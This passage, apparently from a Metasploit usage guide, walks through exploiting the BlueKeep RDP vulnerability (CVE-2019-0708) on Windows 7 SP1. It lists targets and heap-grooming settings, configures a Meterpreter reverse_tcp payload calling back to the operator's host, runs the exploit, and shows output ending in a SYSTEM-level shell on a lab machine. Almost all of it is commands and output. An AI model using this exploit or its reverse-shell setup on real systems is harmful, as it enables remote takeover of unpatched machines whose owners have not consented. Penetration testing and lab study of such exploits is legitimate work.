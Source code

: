 **Common Targets:**

```
0   Windows 7 SP1 / 2008 R2 (6.1.7601 x64) [Powershell]
1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64) [Native x64]
2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64) [Native x64] (VERSION 2)
```

### Advanced Configuration

```bash
# Adjust groom allocations (if system crashes occur)
set GROOM_ALLOCATIONS 50
set GROOM_DELTA 5

# Enable verbose output for debugging
set VERBOSE true

# Set payload options
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT 4444
```

### Execution

```bash
# Run the exploit
exploit
```

**Successful Exploitation Output:**

```
[*] 10.10.10.7:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 10.10.10.7:3389    - The target is vulnerable.
[*] 10.10.10.7:3389    - Using CHUNK grooming strategy. Size 250MB, target: 2...
[*] 10.10.10.7:3389    - Surfing channels ...
[*] 10.10.10.7:3389    - Lobbing eggs ...
[*] 10.10.10.7:3389    - Forcing the USE of FREE'd object ...
[*] Sending stage (200262 bytes) to 10.10.10.7
[*] Meterpreter session 1 opened (10.10.10.10:4444 -> 10.10.10.7:49158) at 2024-01-15 11:30:45 -0500

meterpreter > sysinfo
Computer        : WIN7-TARGET
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

